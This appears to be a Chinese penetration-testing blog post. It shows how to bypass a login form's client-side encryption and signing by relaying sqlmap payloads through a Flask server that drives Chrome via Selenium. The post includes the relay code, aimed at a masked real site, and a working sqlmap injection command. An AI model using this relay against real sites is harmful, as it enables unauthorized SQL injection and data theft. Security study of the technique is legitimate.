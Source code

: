 +++
title = "通过 selenium 和 flask 中转后利用 sqlmap 进行注入"
topics = ["Pentest"]
tags = ["injection"]
description = "渗透测试中有时候前端提交的数据会进行加密之类的操作, 有些加密的函数还不好找, 其实可以用 selenium 调用 chrome 驱动中转后进行测试。"
date = "2019-07-27T18:15:25+08:00"
draft = false
+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-07-27 18:15:25
 * @LastEditTime: 2019-07-31 21:41:30
-->

### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了, 而且有个 sign 字符串每次都不一样用于校验, 应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号, 刚开始想着先找到 js 加密的函数, 然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样, 用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数, 但是用的是 angular 这个前端框架, 没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码, 但是这个没得搞, 不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的, 结果今天上午小伙伴又找我了, 说还没有整好, 又看了一通 js, 仍然无解, 看不懂。。。

想起昨天有个大佬说用 PhantomJS + flask 这样、那样、再这样, 中转数据就可以用 sqlmap 跑了, emmmmm。。。

<div style="display: flex;align-items: center;justify-content: center;">
    <img src="/img/post/Xnip2019-07-27_20-01-02.png" style="width: 50%;height: 50%;" />
</div><br>

虽然很早以前用过 asp 的 [Cookie 注入中转](/posts/2015/injection-of-asp-in-the-cookie/?_blank) , 但是那个是软件, 一直没有搞懂原理, 现在正好趁机学下

经过各种百度, 大概明白了, 应是本地起个 server, sqlmap 就扫描这个 server, server 接收到 payload 后将 payload 加到表单中, 然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS, 但是 selenium 以前用过, 可以尝试下

大概看了下, 我们需要注意动态的消息提示框, 需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是下面这样了:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
'''
@Author: reber
@Mail: reber0ask@qq.com
@Date: 2019-03-22 16:22:59
@LastEditTime: 2019-07-22 09:17:05
'''

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式, 这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制, 去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后, 关闭信息提示框, 然后清除 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)


<br>
#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)